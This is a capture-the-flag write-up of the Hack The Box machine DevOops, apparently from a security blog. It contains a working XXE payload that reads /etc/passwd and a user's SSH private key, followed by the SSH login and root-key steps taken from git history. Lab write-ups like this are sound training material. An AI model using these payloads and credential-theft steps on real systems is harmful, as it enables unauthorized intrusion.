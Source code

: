 ```yaml
---
slug: devoops-writeup/
title: DevOops Writeup
date: 2018-10-16
category: attacks
subtitle: How to resolve HTB DevOops
tags: security, htb, pwn, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/cover_sebbts.webp
alt: Developers programming in an office
description: In this article, we present how to exploit the vulnerabilities
  of DevOops, a Linux Hack the Box machine, and how to gain access and obtain
  the root flag.
keywords: HTB, Security, Hack the Box, Web, Writeup, DevOops, Pentesting,
  Ethical Hacking
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/QckxruozjRg
---
```


## Scanning Phase

First, we check the IP of the
[DevOops](https://www.hackthebox.eu/home/machines/profile/140) machine
and try a `ping` to see if we have access.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/devoops2_zvgbqd.webp)

</div>

<div class="imgblock">

![ping](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/ping_s9mmpa.webp)

</div>

Then, we scan the ports with `nmap`. In this case, we’re going to use
basic `nmap`.

**port scannning.**

``` bash
nmap 10.10.10.91
```

And, we see that ports `5000` and `22` are open.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/nmap_p4mnpl.webp)

</div>

Then, we try to access port `5000` with our browser, and it opens a web
page with the contents of some feed.

<div class="imgblock">

![web-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/web_dudfix.webp)

</div>

As we can see on this page, there is nothing more than an image there.
So, we’re going to scan the whole web server with `dirbuster` to see if
we can access something useful.

**Searching folders in machine.**

``` bash
dirb http://10.10.10.91:5000
```

<div class="imgblock">

![dirb-scan](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/dirb_cmg544.webp)

</div>

<div class="imgblock">

![upload-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330846/blog/devoops-writeup/upload-page_ycfqze.webp)

</div>

## Getting user

In the last step, we got an upload page, because the page says we can
upload `XML` files with the tags Author, Subject and Content. Then, we
try to upload the following `XML` file.

**xml.**

``` xml
<post>
<Author>johnarmas</Author>
<Subject>test</Subject>
<heading>Reminder</heading>
<Content>test</Content>
</post>
```

The response of the server is:

<div class="imgblock">

![upload-ok](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/upload-ok_cknf6r.webp)

</div>

So, because there is no other functionality on the server, we can
suspect that there is an `XML External Entity` (`XXE`) injection. This
is a type of attack against an application that parses `XML` input. This
may lead to, among other issues, the disclosure of confidential data,
and denial of service. We can exploit it to retrieve the contents of
files by uploading a malicious `XML` file.

To test this we can upload the following file:

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<post>
<Author>johnarmas</Author>
<Subject>hola</Subject>
<heading>Reminder</heading>
<Content>&xxe;</Content>
</post>
```

With this, we can retrieve the content of `/etc/passwd` from the web
server and test for `XXE` injection. We can do it by manually uploading
the file or using a proxy like `burpsuite` and sending the request to
the repeater, like in this example:

<div class="imgblock">

![upload-passwd](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/upload-passwd_nji7ye.webp)

</div>

What to do next? When we uploaded our first `XML` file, we could see
from the response that the file is stored on `/home/roosa/deploy/src`.
With this information, we could retrieve the user flag. Usually, this
file is on `/home/roosa/user.txt`, and modifying our `XXE` we could do
it, but what about remote code execution?

In our scans, we saw port `22` is open, so maybe we could retrieve a
private key to access the server with `ssh`.

In general, the ssh keys are named `id_rsa`, so what happens if we try
to obtain the file `/home/roosa/.ssh/id_rsa`?

<div class="imgblock">

![private-key](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/private-key_awn4ee.webp)

</div>

We save the content in a file and change the permission to `0600` to be
able to use it with `ssh` without trouble.

We save the content in a file and change the permissions to `0600` to be
able to use it with `ssh` without trouble.

I like `nano`, but it could be with any other text editor. Then, we
access the server with those credentials.

**Access to the server.**

``` bash
nano roosekey
chmod 0600 roosekey
ssh -i roosekey roosa@10.10.10.91
```

<div class="imgblock">

![ssh-access](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/ssh-access_mqawzd.webp)

</div>

## Enumerating the server

When we access the server, the first thing we should do is to check the
files and the folders that we can access.

On this server, we can see that there is a folder named `deploy`. Let’s
see what’s in there.

<div class="imgblock">

![enum-folder](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330846/blog/devoops-writeup/enum-folder_ophatw.webp)

</div>

There is another private key, but when we try to elevate it as `root`,
we get an error. So, what could be happening? Let’s see what commands
our user has typed.

<div class="imgblock">

![history](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/history_kyutfg.webp)

</div>

There we can see that our user has done a `ssh` to `localhost` with the
user `git`. Let’s try the same and see what happens.

<div class="imgblock">

![ssh-git](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/ssh-git_ulzwsx.webp)

</div>

## Getting root

We do the same with our user `git` to check the history. There is a
command to a route that we didn’t know that is `/srv/git/`. We access
another folder named `blogfeed.git` and check what is in there.

<div class="imgblock">

![enum-folder-git](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330848/blog/devoops-writeup/enum-folder-git_ltxppe.webp)

</div>

It looks like a normal `git` folder, but there is no code in it. Let’s
see what is on their log with:

**Repository log.**

``` bash
git log
```

<div class="imgblock">

![git-log](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330849/blog/devoops-writeup/git-log_hysxnl.webp)

</div>

Surprise, surprise…​

In their log is an authentication key, but to see its content we need to
use `git log` with more verbosity

**Repository log, verbose.**

``` bash
git log -p -8
```

<div class="imgblock">

![auth-key](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/auth-key_kdkkca.webp)

</div>

When we scroll down, we can see the authentication key. We need to copy
it, remove the trailing plus symbols (only the first one) and then, do
the same with the first key we encounter.

We don’t know which user’s key it is, but we can try to find the `root`
user. It won’t hurt anyone.

<div class="imgblock">

![root](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330847/blog/devoops-writeup/root_am4zjl.webp)

</div>

The key is, in fact, the user’s `root`. So, we can retrieve our `root`
flag, and the challenge is completed.

On this challenge `XXE`, we learned to always check the `history` when
we gain access to a machine as a user, and to check `git` repositories
for credentials.
